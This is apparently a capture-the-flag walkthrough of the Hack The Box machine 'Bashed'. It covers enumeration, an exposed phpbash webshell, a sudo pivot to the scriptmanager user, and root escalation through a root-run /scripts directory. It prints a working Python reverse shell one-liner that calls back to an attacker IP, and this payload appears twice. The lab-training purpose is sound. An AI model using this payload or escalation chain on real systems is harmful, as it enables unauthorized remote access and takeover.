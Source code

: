 
![bashed](/assets/basheddefault.png)

-> ## Enumeration <-

Starting off with an nmap scan: `nmap -sC -sV -O -oA nmap/bashed 10.10.10.68`

Ports open:        
1. 80 - http. 

We can see that only port 80 is open. So, we can try and run our basic tools such as dirb, nikto, etc. 
After doing some enumeration, we find out that there is a webshell running on: `http://10.10.10.68/phpbash.php`. 


![bashed homepage](/assets/bashedhomepage.png)



We can navigate through the files and directories of the webshell, but we cannot switch or privesc to another user, as it spawns a new shell every time we type a new command.   
We can then use netcat to get a rev shell back to our machine and then privesc from there. 
But ncat, nc, netcat doesn't seem to work, so we tried a python shell and it worked. 
Payload used:   
    
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash").  
  
## Exploitation
Setting up a netcat listener on our machine and then catching the shell:
![shell](/assets/shell.png)

## Privilege Escalation
After looking around the local filesystem we found out that there is a user called **scriptmanager**. 
After using `sudo -l` to list the sudo permissions which we can perform, this is what we get:  

![sudo priv](/assets/sudopriv.png)


As we can see that we can run any command as the scriptmanager user. 
Hence, we run the bash binary as the user scriptmanager to switch user to scriptmanager:  

    sudo -u scriptmanager /bin/bash.  

And we our now the user scriptmanager!   

Now we need to escalate our privileges to root. 
Again looking around in the local filesystem we find out that there is a /scripts directory in the root of the filesystem. 
We notice that there is a /scripts dir present on the machine which is odd.
-After going into that dir, we can see that there are 2 files:
---test.py. 
---test.txt. 

scriptmanager@bashed:/scripts$ cat test.py. 
cat test.py
f = open('test.txt', 'w')
f.write('testing123!')
f.close


We can then see that the test.txt file has the contents testing123!
So, now we know that the file is/can be written somehow from the py file which is present. 

So, we create a different file with the same code. 

scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open('yes.py', 'w')
f.write('lego')
f.close



-And now we can see that the file yes.py is owned by root.
-That means that whatever we execute from the yes.py file we can get root from it.


-So we can insert the same py rev shell payload which we used earlier:

scriptmanager@bashed:/scripts$ cat test.py.  
`cat test.py
f = open('yes.py', 'w')
f.write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
f.close`  

Same reverse shell payload used as above. 

Now, we setup a netcat listener on our machine to catch the reverse shell:  
![root](/assets/shell2.png)

And now we are ROOT!!!!



